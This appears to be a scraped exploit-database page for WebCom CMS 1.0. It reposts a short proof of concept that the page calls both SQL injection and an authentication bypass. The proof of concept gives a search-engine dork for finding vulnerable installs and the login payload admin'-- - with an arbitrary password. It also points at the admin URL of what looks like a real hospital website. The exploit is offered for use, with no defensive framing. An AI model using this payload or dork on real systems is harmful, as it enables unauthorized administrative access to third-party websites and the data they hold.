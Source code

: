 ```yaml
---
title: WebCom CMS 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173933&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-04
fetch_date: 2025-10-04T12:00:22.981042
---
```


# WebCom CMS 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WebCom CMS 1.0 SQL Injection

2023-08-03 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173933
====================================================================================================================================
| # Title : WebCom CMS v1.0 Auth By pass Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 66.0.3(32-bit) |
| # Vendor : https://codecanyon.net/ |
| # Dork : "Powered by Web.Com(India) Pvt. Ltd" |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] Use payload : user : admin'-- - & Pass : indoushka

[+] http://winternationalhospcom/admin/

Greetings to :=================================================================
jericho * Larry W. Cashdollar * shadow_00715 * LiquidWorm * Hussin-X * D4NB4R |
===============================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)